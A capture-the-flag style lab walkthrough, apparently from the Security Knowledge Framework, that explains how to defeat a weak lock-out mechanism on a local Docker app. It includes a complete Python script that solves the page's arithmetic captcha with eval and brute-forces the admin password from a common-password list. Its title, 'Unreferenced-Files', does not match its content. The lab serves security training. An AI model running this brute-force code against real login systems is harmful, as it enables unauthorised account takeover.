

# KBID xxx - Unreferenced-Files

## Running the app

```
$ sudo docker pull blabla1337/weak-lock-out-mechanism
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-lock-out-mechanism
```





Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practice "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!



## Reconnaissance

We need to test how the application prevents brute force attacks. After registering a new user, we can observe that the application uses a captcha to deter such attacks.



If we attempt to log in with an incorrect password multiple times, we can observe that the application only uses a captcha to prevent brute force attacks.

## Exploitation

One of the most common usernames is "admin", and we can use a password dictionary or list to try to guess the password. In this case, we will use the [10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) from the SecLists repository.

The application uses the endpoint `/login` to authenticate the user. It expects the following parameters: username, password, and captcha, as follows:

```json
{
  "username": "admin",
  "password": "password",
  "captcha": "captcha"
}
```

When logging in fails, the application requests a new captcha from the endpoint `/captcha`. This endpoint returns two numbers and an operator.

```json
{
  "number1": 1,
  "number2": 1,
  "operator": "+"
}
```

We can use the endpoint `/captcha` to solve the captcha and login to the application using the `/login` endpoint. However, in this case, let's try to get the captcha from the HTML source code and use brute force to access the login process.

```python
from urllib.request import urlopen
from requests import post
import re

url = "http://localhost:5000/login/"


def get_content_from_class(html, class_name):
    pattern = f'<div class="{class_name}">.*?</div>'
    match_results = re.search(pattern, html, re.IGNORECASE)
    content = match_results.group()
    content = re.sub("<.*?>", "", content)  # Remove HTML tags
    return content


def login(password):
    page = urlopen(url)

    if page.getcode() != 200:
        print("Error")
        return

    html_bytes = page.read()
    html = html_bytes.decode("utf-8")

    n1 = get_content_from_class(html, "n1")
    n2 = get_content_from_class(html, "n2")
    op = get_content_from_class(html, "op")

    captcha = eval(n1 + op + n2)

    login_body = {
        "username": "admin",
        "password": password,
        "captcha": captcha
    }

    res = post(url, json=login_body)
    return res.json()


with open("passwords.txt", "r") as f:
    passwords = f.readlines()
    # remove \n
    passwords = [password.strip() for password in passwords]
    # loop through passwords
    print("Trying passwords...")
    found = False
    for password in passwords:
        res = None
        while True:
            try:
                res = login(password)
            except:
                continue
            break
        if "message" in res:
            print("Password found: ", password)
            found = True
            break
    if not found:
        print("Password not found")
```

We can see that the password is "qweasdzxc" one of the most common passwords.

> Note: We can use the `/captcha` endpoint to solve the captcha and log in to the application using the `/login` endpoint. As an example, we can get the captcha information from the HTML source. Alternatively, we can use the Intruder tool from Burp Suite.

## Additional sources

[owasp.org | Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)
